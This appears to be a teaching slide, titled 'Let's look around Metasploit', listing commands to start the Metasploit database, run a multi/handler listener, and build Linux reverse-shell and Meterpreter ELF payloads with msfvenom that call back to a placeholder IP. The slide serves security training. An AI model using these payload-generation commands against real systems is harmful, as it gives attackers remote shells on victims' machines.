

# Let’s look around Metasploit
sudo msfdb start
msfconsole -> use exploit/multi/handler -> options -> set [option] [argument] -> exploit -j
msfvenom -p linux/x86/shell/reverse_tcp LHOST=[ip] LPORT=9002 -f elf -o reverse_shell
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=[ip] LPORT=9001 -f elf -o reverse_met